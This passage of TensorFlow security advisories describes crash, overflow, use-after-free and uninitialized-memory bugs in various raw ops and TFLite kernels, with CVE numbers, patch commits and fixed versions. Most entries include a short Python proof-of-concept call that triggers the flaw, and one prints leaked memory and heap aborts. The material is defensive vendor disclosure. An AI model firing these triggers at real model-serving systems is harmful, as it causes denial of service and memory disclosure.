shapes = [shape_1, shape_2]

tf.raw_ops.SparseConcat(indices=indices, values=values, shapes=shapes, concat_dim=2)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/b432a38fe0e1b4b904a6c222cbce794c39703e87/tensorflow/core/kernels/sparse_concat_op.cc#L76)
takes the values specified in `shapes[0]` as dimensions for the output shape:

```cc
TensorShape input_shape(shapes[0].vec<int64>());
```

The [`TensorShape`
constructor](https://github.com/tensorflow/tensorflow/blob/6f9896890c4c703ae0a0845394086e2e1e523299/tensorflow/core/framework/tensor_shape.cc#L183-L188)
uses a `CHECK` operation which triggers when
[`InitDims`](https://github.com/tensorflow/tensorflow/blob/6f9896890c4c703ae0a0845394086e2e1e523299/tensorflow/core/framework/tensor_shape.cc#L212-L296)
returns a non-OK status.

```cc
template <class Shape>
TensorShapeBase<Shape>::TensorShapeBase(gtl::ArraySlice<int64> dim_sizes) {
  set_tag(REP16);
  set_data_type(DT_INVALID);
  TF_CHECK_OK(InitDims(dim_sizes));
}
```

In our scenario, this occurs when adding a dimension from the argument results
in overflow:

```cc
template <class Shape>
Status TensorShapeBase<Shape>::InitDims(gtl::ArraySlice<int64> dim_sizes) {
  ...
  Status status = Status::OK();
  for (int64 s : dim_sizes) {
    status.Update(AddDimWithStatus(internal::SubtleMustCopy(s)));
    if (!status.ok()) {
      return status;
    }
  }
}

template <class Shape>
Status TensorShapeBase<Shape>::AddDimWithStatus(int64 size) {
  ...
  int64 new_num_elements;
  if (kIsPartial && (num_elements() < 0 || size < 0)) {
    new_num_elements = -1;
  } else {
    new_num_elements = MultiplyWithoutOverflow(num_elements(), size);
    if (TF_PREDICT_FALSE(new_num_elements < 0)) {
        return errors::Internal("Encountered overflow when multiplying ",
                                num_elements(), " with ", size,
                                ", result: ", new_num_elements);
      }
  }
  ...
}
```

This is a legacy implementation of the constructor and operations should
use `BuildTensorShapeBase` or `AddDimWithStatus` to prevent `CHECK`-failures in
the presence of overflows.

### Patches
We have patched the issue in GitHub commit
[69c68ecbb24dff3fa0e46da0d16c821a2dd22d7c](https://github.com/tensorflow/tensorflow/commit/69c68ecbb24dff3fa0e46da0d16c821a2dd22d7c).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
## TFSA-2021-142: FPE in `tf.raw_ops.UnravelIndex`

### CVE Number
CVE-2021-37668

### Impact
An attacker can cause denial of service in applications serving models using
`tf.raw_ops.UnravelIndex` by triggering a division by 0:

```python
import tensorflow as tf

tf.raw_ops.UnravelIndex(indices=-1, dims=[1,0,2])
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/460e000de3a83278fb00b61a16d161b1964f15f4/tensorflow/core/kernels/unravel_index_op.cc#L36)
does not check that the tensor subsumed by `dims` is not empty. Hence, if one
element of `dims` is 0, the implementation does a division by 0.

### Patches
We have patched the issue in GitHub commit
[a776040a5e7ebf76eeb7eb923bf1ae417dd4d233](https://github.com/tensorflow/tensorflow/commit/a776040a5e7ebf76eeb7eb923bf1ae417dd4d233).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-126: Use after free in boosted trees creation

### CVE Number
CVE-2021-37652

### Impact
The implementation for `tf.raw_ops.BoostedTreesCreateEnsemble` can result in a
use after free error if an attacker supplies specially crafted arguments:

```python
import tensorflow as tf

v= tf.Variable([0.0])
tf.raw_ops.BoostedTreesCreateEnsemble(
  tree_ensemble_handle=v.handle,
  stamp_token=[0],
  tree_ensemble_serialized=['0'])
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/f24faa153ad31a4b51578f8181d3aaab77a1ddeb/tensorflow/core/kernels/boosted_trees/resource_ops.cc#L55)
uses a reference counted resource and decrements the refcount if the
initialization fails, as it should. However, when the code was written, the
resource was represented as a naked pointer but later refactoring has changed it
to be a smart pointer. Thus, when the pointer leaves the scope, a subsequent
`free`-ing of the resource occurs, but this fails to take into account that the
refcount has already reached 0, thus the resource has been already freed. During
this double-free process, members of the resource object are accessed for
cleanup but they are invalid as the entire resource has been freed.

### Patches
We have patched the issue in GitHub commit
[5ecec9c6fbdbc6be03295685190a45e7eee726ab](https://github.com/tensorflow/tensorflow/commit/5ecec9c6fbdbc6be03295685190a45e7eee726ab).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-065: Heap buffer overflow in `AvgPool3DGrad`

### CVE Number
CVE-2021-29577

### Impact
The implementation of `tf.raw_ops.AvgPool3DGrad` is vulnerable to a heap buffer
overflow:

```python
import tensorflow as tf

orig_input_shape = tf.constant([10, 6, 3, 7, 7], shape=[5], dtype=tf.int32)
grad = tf.constant([0.01, 0, 0], shape=[3, 1, 1, 1, 1], dtype=tf.float32)
ksize = [1, 1, 1, 1, 1]
strides = [1, 1, 1, 1, 1]
padding = "SAME"

tf.raw_ops.AvgPool3DGrad(
  orig_input_shape=orig_input_shape, grad=grad, ksize=ksize, strides=strides,
  padding=padding)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/d80ffba9702dc19d1fac74fc4b766b3fa1ee976b/tensorflow/core/kernels/pooling_ops_3d.cc#L376-L450)
assumes that the `orig_input_shape` and `grad` tensors have similar first and
last dimensions but does not check that this assumption is validated.

### Patches
We have patched the issue in GitHub commit
[6fc9141f42f6a72180ecd24021c3e6b36165fe0d](https://github.com/tensorflow/tensorflow/commit/6fc9141f42f6a72180ecd24021c3e6b36165fe0d).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
## TFSA-2021-090: Division by zero in TFLite's implementation of hashtable lookup

### CVE Number
CVE-2021-29604

### Impact
The TFLite implementation of hashtable lookup is [vulnerable to a division by
zero
error](https://github.com/tensorflow/tensorflow/blob/1a8e885b864c818198a5b2c0cbbeca5a1e833bc8/tensorflow/lite/kernels/hashtable_lookup.cc#L114-L115):

```cc
const int num_rows = SizeOfDimension(value, 0);
const int row_bytes = value->bytes / num_rows;
```

An attacker can craft a model such that `values`'s first dimension would be 0.

### Patches
We have patched the issue in GitHub commit
[5117e0851348065ed59c991562c0ec80d9193db2](https://github.com/tensorflow/tensorflow/commit/5117e0851348065ed59c991562c0ec80d9193db2).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-156: Use of unitialized value in TFLite

### CVE Number
CVE-2021-37682

### Impact
All TFLite operations that use quantization can be made to use unitialized
values. [For
example](https://github.com/tensorflow/tensorflow/blob/460e000de3a83278fb00b61a16d161b1964f15f4/tensorflow/lite/kernels/depthwise_conv.cc#L198-L200):

```cc
    const auto* affine_quantization =
        reinterpret_cast<TfLiteAffineQuantization*>(
            filter->quantization.params);
```

The issue stems from the fact that `quantization.params` is only valid if
`quantization.type` is different that `kTfLiteNoQuantization`. However, these
checks are missing in large parts of the code.

### Patches
We have patched the issue in GitHub commits
[537bc7c723439b9194a358f64d871dd326c18887](https://github.com/tensorflow/tensorflow/commit/537bc7c723439b9194a358f64d871dd326c18887),
[4a91f2069f7145aab6ba2d8cfe41be8a110c18a5](https://github.com/tensorflow/tensorflow/commit/4a91f2069f7145aab6ba2d8cfe41be8a110c18a5)
and
[8933b8a21280696ab119b63263babdb54c298538](https://github.com/tensorflow/tensorflow/commit/8933b8a21280696ab119b63263babdb54c298538).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2020-022: Crash due to invalid shape of `grad_values` in SparseFillEmptyRowsGrad

### CVE Number
CVE-2020-15194

### Impact
The `SparseFillEmptyRowsGrad` implementation has [incomplete validation of the
shapes of its
arguments](https://github.com/tensorflow/tensorflow/blob/0e68f4d3295eb0281a517c3662f6698992b7b2cf/tensorflow/core/kernels/sparse_fill_empty_rows_op.cc#L235-L241):
```cc
    OP_REQUIRES(
        context, TensorShapeUtils::IsVector(reverse_index_map_t->shape()),
        errors::InvalidArgument("reverse_index_map must be a vector, saw: ",
                                reverse_index_map_t->shape().DebugString()));

    const auto reverse_index_map = reverse_index_map_t->vec<int64>();
    const auto grad_values = grad_values_t->vec<T>();
```

Although `reverse_index_map_t` and `grad_values_t` are accessed in a similar
pattern, only `reverse_index_map_t` is validated to be of proper shape. Hence,
malicious users can pass a bad `grad_values_t` to trigger an assertion failure
in `vec`, causing denial of service in serving installations.

### Vulnerable Versions
TensorFlow 1.15.0, 1.15.1, 1.15.2, 1.15.3, 2.0.0, 2.0.1, 2.0.2, 2.1.0, 2.1.1,
2.2.0, 2.3.0.

### Patches
We have patched the issue in
[390611e0d45c5793c7066110af37c8514e6a6c54](https://github.com/tensorflow/tensorflow/commit/390611e0d45c5793c7066110af37c8514e6a6c54)
and will release a patch release for all affected versions.

We recommend users to upgrade to TensorFlow 1.15.4, 2.0.3, 2.1.2, 2.2.1, or
2.3.1.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been discovered through a variant analysis of [a
vulnerability reported by members of the Aivul Team from Qihoo
360](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2020-021.md).
## TFSA-2021-191: Segfault while copying constant resource tensor

### CVE Number
CVE-2021-41204

### Impact
During TensorFlow's Grappler optimizer phase, constant folding might attempt to deep copy a resource tensor. This results in a segfault, as these tensors are supposed to not change.

### Patches
We have patched the issue in GitHub commit [7731e8dfbe4a56773be5dc94d631611211156659](https://github.com/tensorflow/tensorflow/commit/7731e8dfbe4a56773be5dc94d631611211156659).

The fix will be included in TensorFlow 2.7.0. We will also cherrypick this commit on TensorFlow 2.6.1, TensorFlow 2.5.2, and TensorFlow 2.4.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.
## TFSA-2021-074: Division by zero in optimized pooling implementations in TFLite

### CVE Number
CVE-2021-29586

### Impact
Optimized pooling implementations in TFLite fail to check that the stride
arguments are not 0 before calling
[`ComputePaddingHeightWidth`](https://github.com/tensorflow/tensorflow/blob/3f24ccd932546416ec906a02ddd183b48a1d2c83/tensorflow/lite/kernels/pooling.cc#L90).

Since users can craft special models which will have
`params->stride_{height,width}` be zero, this will result in a division by zero.

### Patches
We have patched the issue in GitHub commit
[5f7975d09eac0f10ed8a17dbb6f5964977725adc](https://github.com/tensorflow/tensorflow/commit/5f7975d09eac0f10ed8a17dbb6f5964977725adc).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-020: `CHECK`-fail in `tf.raw_ops.EncodePng`

### CVE Number
CVE-2021-29531

### Impact
An attacker can trigger a `CHECK` fail in PNG encoding by providing an empty
input tensor as the pixel data:

```python
import tensorflow as tf

image = tf.zeros([0, 0, 3])
image = tf.cast(image, dtype=tf.uint8)
tf.raw_ops.EncodePng(image=image)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/e312e0791ce486a80c9d23110841525c6f7c3289/tensorflow/core/kernels/image/encode_png_op.cc#L57-L60)
only validates that the total number of pixels in the image does not overflow.
Thus, an attacker can send an empty matrix for encoding. However, if the tensor
is empty, then the associated buffer is `nullptr`. Hence, when [calling
`png::WriteImageToBuffer`](https://github.com/tensorflow/tensorflow/blob/e312e0791ce486a80c9d23110841525c6f7c3289/tensorflow/core/kernels/image/encode_png_op.cc#L79-L93),
the first argument (i.e., `image.flat<T>().data()`) is `NULL`. This then
triggers the `CHECK_NOTNULL` in the [first line of
`png::WriteImageToBuffer`](https://github.com/tensorflow/tensorflow/blob/e312e0791ce486a80c9d23110841525c6f7c3289/tensorflow/core/lib/png/png_io.cc#L345-L349).

```cc
template <typename T>
bool WriteImageToBuffer(
    const void* image, int width, int height, int row_bytes, int num_channels,
    int channel_bits, int compression, T* png_string,
    const std::vector<std::pair<std::string, std::string> >* metadata) {
  CHECK_NOTNULL(image);
  ...
}
```

Since `image` is null, this results in `abort` being called after printing the
stacktrace. Effectively, this allows an attacker to mount a denial of service
attack.

### Patches
We have patched the issue in GitHub commit
[26eb323554ffccd173e8a79a8c05c15b685ae4d1](https://github.com/tensorflow/tensorflow/commit/26eb323554ffccd173e8a79a8c05c15b685ae4d1).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
## TFSA-2021-115: Division by 0 in `ResourceScatterDiv`

### CVE Number
CVE-2021-37642

### Impact
The implementation of `tf.raw_ops.ResourceScatterDiv` is vulnerable to a
division by 0 error:

```python
import tensorflow as tf

v= tf.Variable([1,2,3])
tf.raw_ops.ResourceScatterDiv(
  resource=v.handle,
  indices=[1],
  updates=[0])
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/8d72537c6abf5a44103b57b9c2e22c14f5f49698/tensorflow/core/kernels/resource_variable_ops.cc#L865)
uses a common class for all binary operations but fails to treat the division by
0 case separately.

### Patches
We have patched the issue in GitHub commit
[4aacb30888638da75023e6601149415b39763d76](https://github.com/tensorflow/tensorflow/commit/4aacb30888638da75023e6601149415b39763d76).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-168: A use of uninitialized value vulnerability in Tensorflow

### CVE Number
CVE-2021-41225

### Impact
TensorFlow's Grappler optimizer has a [use of unitialized variable](https://github.com/tensorflow/tensorflow/blob/3457a2b122e50b4d44ceaaed5a663d635e5c22df/tensorflow/core/grappler/optimizers/auto_parallel.cc#L155-L164):

```cc
  const NodeDef* dequeue_node;
  for (const auto& train_node : train_nodes) {
    if (IsDequeueOp(*train_node)) {
      dequeue_node = train_node;
      break;
    }
  }

  if (dequeue_node) {
    ...
  }
```

If the `train_nodes` vector (obtained from the saved model that gets optimized) does not contain a `Dequeue` node, then `dequeue_node` is left unitialized.

### Patches
We have patched the issue in GitHub commit [68867bf01239d9e1048f98cbad185bf4761bedd3](https://github.com/tensorflow/tensorflow/commit/68867bf01239d9e1048f98cbad185bf4761bedd3).

The fix will be included in TensorFlow 2.7.0. We will also cherrypick this commit on TensorFlow 2.6.1, TensorFlow 2.5.2, and TensorFlow 2.4.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by Qian Feng from Baidu Security Team.
## TFSA-2021-076: Division by zero in TFLite's implementation of `GatherNd`

### CVE Number
CVE-2021-29589

### Impact
The reference implementation of the `GatherNd` TFLite operator is [vulnerable to
a division by zero
error](https://github.com/tensorflow/tensorflow/blob/0d45ea1ca641b21b73bcf9c00e0179cda284e7e7/tensorflow/lite/kernels/internal/reference/reference_ops.h#L966):

```cc
ret.dims_to_count[i] = remain_flat_size / params_shape.Dims(i);
```

An attacker can craft a model such that `params` input would be an empty tensor.
In turn, `params_shape.Dims(.)` would be zero, in at least one dimension.

### Patches
We have patched the issue in GitHub commit
[8e45822aa0b9f5df4b4c64f221e64dc930a70a9d](https://github.com/tensorflow/tensorflow/commit/8e45822aa0b9f5df4b4c64f221e64dc930a70a9d).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-049: `CHECK`-fail in `LoadAndRemapMatrix`

### CVE Number
CVE-2021-29561

### Impact
An attacker can cause a denial of service by exploiting a `CHECK`-failure coming
from `tf.raw_ops.LoadAndRemapMatrix`:

```python
import tensorflow as tf

ckpt_path = tf.constant([], shape=[0], dtype=tf.string)
old_tensor_name = tf.constant("")
row_remapping = tf.constant([], shape=[0], dtype=tf.int64)
col_remapping = tf.constant([1], shape=[1], dtype=tf.int64)
initializing_values = tf.constant(1.0)

tf.raw_ops.LoadAndRemapMatrix(
    ckpt_path=ckpt_path, old_tensor_name=old_tensor_name,
    row_remapping=row_remapping, col_remapping=col_remapping,
    initializing_values=initializing_values, num_rows=0, num_cols=1)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/d94227d43aa125ad8b54115c03cece54f6a1977b/tensorflow/core/kernels/ragged_tensor_to_tensor_op.cc#L219-L222)
assumes that the `ckpt_path` is always a valid scalar.

```cc
const string& ckpt_path = ckpt_path_t->scalar<tstring>()();
```

However, an attacker can send any other tensor as the first argument of
`LoadAndRemapMatrix`. This would cause the rank `CHECK` in `scalar<T>()()` to
trigger and terminate the process.

### Patches
We have patched the issue in GitHub commit
[77dd114513d7796e1e2b8aece214a380af26fbf4](https://github.com/tensorflow/tensorflow/commit/77dd114513d7796e1e2b8aece214a380af26fbf4).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
## TFSA-2021-062: Division by 0 in `MaxPoolGradWithArgmax`

### CVE Number
CVE-2021-29573

### Impact
The implementation of `tf.raw_ops.MaxPoolGradWithArgmax` is vulnerable to a
division by 0:

```python
import tensorflow as tf

input = tf.constant([], shape=[0, 0, 0, 0], dtype=tf.float32)
grad = tf.constant([], shape=[0, 0, 0, 0], dtype=tf.float32)
argmax = tf.constant([], shape=[0], dtype=tf.int64)
ksize = [1, 1, 1, 1]
strides = [1, 1, 1, 1]

tf.raw_ops.MaxPoolGradWithArgmax(
  input=input, grad=grad, argmax=argmax, ksize=ksize, strides=strides,
  padding='SAME', include_batch_in_index=False)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/279bab6efa22752a2827621b7edb56a730233bd8/tensorflow/core/kernels/maxpooling_op.cc#L1033-L1034)
fails to validate that the batch dimension of the tensor is non-zero, before
dividing by this quantity.

### Patches
We have patched the issue in GitHub commit
[376c352a37ce5a68b721406dc7e77ac4b6cf483d](https://github.com/tensorflow/tensorflow/commit/376c352a37ce5a68b721406dc7e77ac4b6cf483d).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
## TFSA-2021-176: Integer division by 0 in `tf.raw_ops.AllToAll`

### CVE Number
CVE-2021-41218

### Impact
The [shape inference code for `AllToAll`](https://github.com/tensorflow/tensorflow/blob/8d72537c6abf5a44103b57b9c2e22c14f5f49698/tensorflow/core/ops/tpu_cross_replica_ops.cc#L25-L74) can be made to execute a division by 0:

```python
import tensorflow as tf

@tf.function
def func():
  return tf.raw_ops.AllToAll(
    input=[0.0, 0.1652, 0.6543],
    group_assignment=[1, -1],
    concat_dimension=0,
    split_dimension=0,
    split_count=0)

func()
```

This occurs whenever the `split_count` argument is 0:

```cc
TF_RETURN_IF_ERROR(c->GetAttr("split_count", &split_count));
...
for (int32_t i = 0; i < rank; ++i) {
  ...
  dims[i] = c->MakeDim(c->Value(dims[i]) / split_count);
  ...
}
```

### Patches
We have patched the issue in GitHub commit [a8ad3e5e79c75f36edb81e0ba3f3c0c5442aeddc](https://github.com/tensorflow/tensorflow/commit/a8ad3e5e79c75f36edb81e0ba3f3c0c5442aeddc).

The fix will be included in TensorFlow 2.7.0. We will also cherrypick this commit on TensorFlow 2.6.1, TensorFlow 2.5.2, and TensorFlow 2.4.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo 360.
## TFSA-2021-157: FPE in TFLite division operations

### CVE Number
CVE-2021-37683

### Impact
The implementation of division in TFLite is [vulnerable to a division by 0
error](https://github.com/tensorflow/tensorflow/blob/460e000de3a83278fb00b61a16d161b1964f15f4/tensorflow/lite/kernels/div.cc)

There is no check that the divisor tensor does not contain zero elements.

### Patches
We have patched the issue in GitHub commit
[1e206baedf8bef0334cca3eb92bab134ef525a28](https://github.com/tensorflow/tensorflow/commit/1e206baedf8bef0334cca3eb92bab134ef525a28).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-119: Integer overflow due to conversion to unsigned

### CVE Number
CVE-2021-37645

### Impact
The implementation of `tf.raw_ops.QuantizeAndDequantizeV4Grad` is vulnerable to
an integer overflow issue caused by converting a signed integer value to an
unsigned one and then allocating memory based on this value.

```python
import tensorflow as tf

tf.raw_ops.QuantizeAndDequantizeV4Grad(
  gradients=[1.0,2.0],
  input=[1.0,1.0],
  input_min=[0.0],
  input_max=[10.0],
  axis=-100)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/8d72537c6abf5a44103b57b9c2e22c14f5f49698/tensorflow/core/kernels/quantize_and_dequantize_op.cc#L126)
uses the `axis` value as the size argument to `absl::InlinedVector` constructor.
But, the constructor uses an unsigned type for the argument, so the implicit
conversion transforms the negative value to a large integer.

### Patches
We have patched the issue in GitHub commit
[96f364a1ca3009f98980021c4b32be5fdcca33a1](https://github.com/tensorflow/tensorflow/commit/96f364a1ca3009f98980021c4b32be5fdcca33a1).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, and TensorFlow 2.4.3, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2020-030: Lack of validation in data format attributes

### CVE Number
CVE-2020-26267

### Impact
The `tf.raw_ops.DataFormatVecPermute` API does not validate the `src_format` and
`dst_format` attributes. [The
code](https://github.com/tensorflow/tensorflow/blob/304b96815324e6a73d046df10df6626d63ac12ad/tensorflow/core/kernels/data_format_ops.cc)
assumes that these two arguments define a permutation of `NHWC`.

However, these assumptions are not checked and this can result in uninitialized
memory accesses, read outside of bounds and even crashes.

```python
>>> import tensorflow as tf
>>> tf.raw_ops.DataFormatVecPermute(x=[1,4], src_format='1234', dst_format='1234')
<tf.Tensor: shape=(2,), dtype=int32, numpy=array([4, 757100143], dtype=int32)>
...
>>> tf.raw_ops.DataFormatVecPermute(x=[1,4], src_format='HHHH', dst_format='WWWW')
<tf.Tensor: shape=(2,), dtype=int32, numpy=array([4, 32701], dtype=int32)>
...
>>> tf.raw_ops.DataFormatVecPermute(x=[1,4], src_format='H', dst_format='W')
<tf.Tensor: shape=(2,), dtype=int32, numpy=array([4, 32701], dtype=int32)>
>>> tf.raw_ops.DataFormatVecPermute(x=[1,2,3,4], 
                                    src_format='1234', dst_format='1253')
<tf.Tensor: shape=(4,), dtype=int32, numpy=array([4, 2, 939037184, 3], dtype=int32)>
...
>>> tf.raw_ops.DataFormatVecPermute(x=[1,2,3,4],
                                    src_format='1234', dst_format='1223')
<tf.Tensor: shape=(4,), dtype=int32, numpy=array([4, 32701, 2, 3], dtype=int32)>
...
>>> tf.raw_ops.DataFormatVecPermute(x=[1,2,3,4],
                                    src_format='1224', dst_format='1423')
<tf.Tensor: shape=(4,), dtype=int32, numpy=array([1, 4, 3, 32701], dtype=int32)>
...
>>> tf.raw_ops.DataFormatVecPermute(x=[1,2,3,4], src_format='1234', dst_format='432')
<tf.Tensor: shape=(4,), dtype=int32, numpy=array([4, 3, 2, 32701], dtype=int32)>
...
>>> tf.raw_ops.DataFormatVecPermute(x=[1,2,3,4],
                                    src_format='12345678', dst_format='87654321')
munmap_chunk(): invalid pointer
Aborted
...
>>> tf.raw_ops.DataFormatVecPermute(x=[[1,5],[2,6],[3,7],[4,8]],           
                                    src_format='12345678', dst_format='87654321')
<tf.Tensor: shape=(4, 2), dtype=int32, numpy=
array([[71364624,        0],
       [71365824,        0],
       [     560,        0],
       [      48,        0]], dtype=int32)>
...
>>> tf.raw_ops.DataFormatVecPermute(x=[[1,5],[2,6],[3,7],[4,8]], 
                                    src_format='12345678', dst_format='87654321')
free(): invalid next size (fast)
Aborted
```

A similar issue occurs in `tf.raw_ops.DataFormatDimMap`, for the same reasons:

```python
>>> tf.raw_ops.DataFormatDimMap(x=[[1,5],[2,6],[3,7],[4,8]], src_format='1234',
>>> dst_format='8765')
<tf.Tensor: shape=(4, 2), dtype=int32, numpy=
array([[1954047348, 1954047348],
       [1852793646, 1852793646],
       [1954047348, 1954047348],
       [1852793632, 1852793632]], dtype=int32)>
```

### Patches

We have patched the issue in GitHub commit
[ebc70b7a592420d3d2f359e4b1694c236b82c7ae](https://github.com/tensorflow/tensorflow/commit/ebc70b7a592420d3d2f359e4b1694c236b82c7ae)
and will release TensorFlow 2.4.0 containing the patch. TensorFlow nightly
packages after this commit will also have the issue resolved.

Since this issue also impacts TF versions before 2.4, we will patch all releases
between 1.15 and 2.3 inclusive.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-194: Overflow/crash in `tf.range`

### CVE Number
CVE-2021-41202

### Impact
While calculating the size of the output within the `tf.range` kernel, there is a conditional statement of type `int64 = condition ? int64 : double`. Due to C++ implicit conversion rules, both branches of the condition will be cast to `double` and the result would be truncated before the assignment. This result in overflows:

```python
import tensorflow as tf

tf.sparse.eye(num_rows=9223372036854775807, num_columns=None)
```

Similarly, `tf.range` would result in crashes due to overflows if the start or end point are too large.

```python
import tensorflow as tf

tf.range(start=-1e+38, limit=1)
```

### Patches
